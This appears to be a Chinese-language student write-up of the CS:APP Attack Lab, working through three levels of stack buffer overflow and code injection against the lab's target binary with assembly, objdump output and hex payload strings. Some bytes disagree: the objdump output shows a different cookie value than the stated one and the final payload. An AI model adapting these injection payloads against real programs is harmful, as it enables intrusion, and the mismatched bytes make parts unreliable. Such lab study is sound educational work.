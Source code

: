 # Attack

Level 1

第一节段是简单的栈溢出，我们需要将构造好的函数写入函数正常的返回地址。

[![cTN5rj.png](https://z3.ax1x.com/2021/04/19/cTN5rj.png)](https://imgtu.com/i/cTN5rj)

因为栈开辟了40个字节大小的空间，所以需要填充40个字节的字符，然后输入需要

返回的地址，这里我们需要跳转的touch1，所以返回地址是4017c0，我们在attack1.txt

里面写入构造的payload。

[![cTNLGT.png](https://z3.ax1x.com/2021/04/19/cTNLGT.png)](https://imgtu.com/i/cTNLGT)

运行，攻击成功。

[![cTUyy4.png](https://z3.ax1x.com/2021/04/19/cTUyy4.png)](https://imgtu.com/i/cTUyy4)

Level 2
[![cTro59.png](https://z3.ax1x.com/2021/04/19/cTro59.png)](https://imgtu.com/i/cTro59)

查看touch2程序的逻辑，这段程序是验证传进来的参数是否和cookie中的值相等，cookie=0x59b997fa。思路是将返回地址设置为注入代码的地址，因为这次是直接在栈顶注入，所以返回地址为%rsp地址，将cookie的值传给第一个参数，调用touch2但又不能使用call和jmp等指令，所以要先吧touch2的地址压入栈再用ret从栈上弹出返回地址。所以注入的代码为

```
movq    $0x59b997fa, %rdi
pushq   0x4017ec
ret
```

需要将上述的汇编代码转化为计算机可以执行的指令序列并执行下列命令：

```
linux> gcc -c inject.s
linux> objdump -d inject.o

Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 69 59    mov    $0x596997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq

```

得到指令序列为48 c7 c7 fa 97 69 59 68 ec 17 40 00 c3

[![cjvhfP.png](https://z3.ax1x.com/2021/04/24/cjvhfP.png)](https://imgtu.com/i/cjvhfP)

获取到了%rsp的地址构造字符串。

```
48 c7 c7 fa 97 b9 59 68 ec 17 
40 00 c3 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 
```



Level3

这一阶段需要传递一段字符串作为参数向输入的字符串中注入一段代码。在正常返回的时候跳转到touch3函数。

[![https://ae01.alicdn.com/kf/U6e430299b0954ad6a605c382283e4061x.jpg](https://ae01.alicdn.com/kf/U6e430299b0954ad6a605c382283e4061x.jpg)](https://ae01.alicdn.com/kf/U6e430299b0954ad6a605c382283e4061x.jpg)

程序在touch3函数中调用了hexmatch函数，这个函数的功能是匹配cookie和传进来的字符是否匹配，已经给出了cookie是0x59b997fa，所以应该传入的参数是“59b997fa”。在调用hexmatch函数的时候，如果cookie存在buffer里面可能会被覆盖，所以cookie要放到test栈帧中。我们要注入的代码是。

```
movq    $0x5561dca8, %rdi
pushq   0x4018fa
ret
```

经过转换变位指令序列48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3。cookie的16进制数为35 39 62 39 39 37 66 61 00。构造字符序列为

```
48 c7 c7 a8 dc 61 55 68 fa 18 
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 35 39
62 39 39 37 66 61 00
```


